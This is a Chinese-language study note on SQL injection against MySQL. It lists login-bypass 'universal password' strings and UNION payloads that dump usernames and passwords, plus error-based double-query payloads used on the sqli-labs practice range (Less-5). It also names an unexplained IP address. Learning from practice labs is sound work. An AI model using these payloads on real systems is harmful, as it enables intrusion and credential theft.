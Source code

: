 # sql注入和绕过

https://www.cnblogs.com/vincy99/p/9642882.html
http://58.221.238.152:83/


在开始真正的注入技巧之前,我们先来大致回顾下必要的 mysql 数据库基础


>下面是注入 Mysql 时经常会用到的一些单行函数,熟练使用是灵活注入的前提,尤其是在对抗一些 Waf 的时候

字符串连接函数,将多个字符串连接成一个字符串,注意,`中间只要字符串有一个为空,最后结果也为空`


## 手注！(手冲！！)


 ## 后台万能密码

- admin' --
- admin' #
- admin'/*
- ' or 1=1--
- ' or 1=1#
- ' or 1=1/*
- ') or '1'='1--
- ') or ('1'='1--
- 以不同的用户登陆 ' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--

```sql
1' union select 1,2,concat_ws(char(32,58,32),id,username,password) from  users limit 1,1 union select   1,2,'3

```


**双注入GET单引号字符型注入**
模板
```sql
select count(*),concat_ws(':',([子查询],floor(rand()*2))) as a form [table_name] group by a;
```


`sql 靶场-less5`：
```sql
' union select count(*),1, concat('~',(select table_name from information_schema.tables where table_schema='security' limit 0,1),'~', floor(rand()*2)) as a from information_schema.tables group by a%23


1' union select count(*),1, concat('~',(select table_name from information_schema.tables where table_schema='security' limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a%23

```

查列：
```
1' union select count(*),1, concat('~',(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),'~', floor(rand()*2)) as a from information_schema.tables group by a%23

```

差数据：
```
1' union select count(*),1, concat('~',(select email_id from emails limit 0,1),'~', floor(rand()*2)) as a from information_schema.tables group by a%23

```




